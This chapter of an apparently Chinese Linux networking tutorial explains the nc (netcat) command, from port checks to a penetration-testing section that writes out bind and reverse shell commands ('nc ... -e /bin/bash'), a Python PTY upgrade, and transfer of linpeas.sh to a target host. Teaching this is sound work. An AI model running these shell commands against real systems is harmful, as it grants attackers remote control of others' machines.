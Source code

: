 + [author](http://nsddd.top)

# 第6节 nc命令

<div><a href = '5.md' style='float:left'>⬆️上一节🔗</a><a href = '7.md' style='float: right'>⬇️下一节🔗</a></div>
<br>

> ❤️💕💕linux常用的网络命令补充，网络知识的补充，Linux网络编程基础。Myblog:[http://nsddd.top](http://nsddd.top/)

---
[TOC]

## nc命令

nc 是 Linux下强大的网络命令行工具，主要用于 TCP、UDP、UNIX域套接字 相关的操作

**:lollipop:有时候就因为`ping`命令没办法查看端口号是否连接，所以我们选择`nc`命令**

有时需要测试服务器的端口连通性，下面是测试服务器(IP:10.3.3.3 22) 22 端口是否开启的例子

```less
nc -z -v -w 3 10.3.3.3 22
nc -z -v -w 3 10.3.3.3 22 6000
```

- `-z` 选项是报告连接状态(只连接不发送数据)
- `-v` 选项是输出命令过程信息,
- `-w` 是设置超时时间,默认是秒，如果要设置毫秒的话，可以在数字后面加上 ms, 比如：-w 3 是3秒超时，-w 300ms 表示超时时间是300毫秒

从上面的结果可以看出，目标服务器上 22 端口是开启的，6000 端口是关闭的

例子中扫描的是 TCP 协议的端口，如果要扫描 UDP 协议的端口，需要加上 -u 选项，如果换成 UDP端口的话，上面的命令就会变成 `nc -uz -v -w 3 10.3.3.3 22`



## nc功能

> 站在渗透者的角度上学习nc

**nc有两个非常重要的功能：**

+ 远程shell
+ 文件传输



### 远程shell

**远程shell可以使攻击者跨网络执行shell命令，以小巧实用而著名的工具nc可以快速远程提供shell**

:m:因为防火墙或者`NAT`的存在，通常导致无法在外部主动连接目标主机。根据攻击者所在的位置，选择正向`shell`还是反向`shell`



## 正向shell

靶机将`shell`绑定至本地端口，以攻击机远程访问，靶机监听，攻击机主动连接靶机的称为正向`shell`

> 攻击者位于局域网，靶机位于公网



**靶机监听端口**

```bash
nc -lvp 8888 -e /bin/bash
```



**靶机发出连接**

```
nc -v 106.107...100 8888
```



**攻击者生成`PTY SHELL`（可选）**

```
python3 -c 'import' pty;pty.spawn("/bin/bash");
```



### 反向shell

攻击机将`shell`绑定至本地端口，以供靶机远程访问，攻击机监听，靶机主动连接攻击机的称之为反向`shell`

> 攻击机位于公网，靶机位于局域网



**攻击机监听端口**

```
nc -lvp 8888
```



**靶机发出连接**

```bash
nc -v 106.103...100 8888 -e /bin/bash
```



**攻击机生成`PTY SHELL`**(可选)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



## 文件传输

**将脚本文件`linpeas.sh`从攻击机上传到靶机**



靶机监听端口，并将输出重定向到文件`linpeas.sh`

```bash
nc --recv-only -lvp 8888 > linpeas.sh
```



攻击机连接靶机端口，将输入重定向到文件`linpeas.sh`

```bash
nc -v --send-only 110.42.175.115 8888 < linpeas.sh
```





## END 链接
<ul><li><div><a href = '5.md' style='float:left'>⬆️上一节🔗</a><a href = '7.md' style='float: right'>⬇️下一节🔗</a></div></li></ul>

+ [Ⓜ️回到目录🏠](../README.md)

+ [**🫵参与贡献💞❤️‍🔥💖**](https://nsddd.top/archives/contributors))

+ ✴️版权声明 &copy; :本书所有内容遵循[CC-BY-SA 3.0协议（署名-相同方式共享）&copy;](http://zh.wikipedia.org/wiki/Wikipedia:CC-by-sa-3.0协议文本) 

